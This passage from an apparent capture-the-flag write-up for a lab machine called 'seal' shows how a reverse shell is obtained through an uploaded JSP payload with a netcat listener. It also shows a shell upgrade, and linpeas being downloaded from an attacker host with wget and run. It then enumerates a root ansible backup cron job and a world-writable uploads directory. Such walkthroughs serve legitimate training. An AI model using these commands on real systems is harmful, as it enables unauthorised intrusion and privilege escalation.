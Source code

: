 3. Start a listener with `nc -lvnp 1337`
4. Visit `https://10.10.10.250/payload/lyibvpiewin.jsp` in the web browser to abuse the code execution. This gives a reverse shell.

Upgrade the shell with
```
python3 -c "__import__('pty').spawn('/bin/bash')"
Ctrl+Z
stty -echo raw
fg
export TERM=linux
```

Run linpeas
```
sadeli@attacker: ~$ python3 -m http.server 8000
tomcat@seal:/var/lib/tomcat9$ cd /tmp
tomcat@seal:/tmp$ wget http://attacker_ip:8000/linpeas.sh
tomcat@seal:/tmp$ chmod +x linpeas.sh
tomcat@seal:/tmp$ ./linpeas.sh | tee linpeas.txt
tomcat@seal:/tmp$ less -r /tmp/linpeas.txt
```

There appears to be two cron jobs running as root:
```
root       27938  0.0  0.0   8356  3344 ?        S    06:51   0:00  _ /usr/sbin/CRON -f
root       27939  0.0  0.0   2608   600 ?        Ss   06:51   0:00      _ /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
```

Inspect the contents of /opt/backups/playbook/run.yml
```
tomcat@seal:/tmp$ cat /opt/backups/playbook/run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
tomcat@seal:/tmp$
```

This ansible playbook makes a backup up of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` and saves it to `/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz` while preserving symlinks. View the contents of the dashboard. Everyone has full write access to the uploads directory.
```
tomcat@seal:/tmp$ cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7 09:26 .
drwxr-xr-x 3 root root  4096 May  6 10:48 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 Oct 14 07:03 uploads
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ 
```
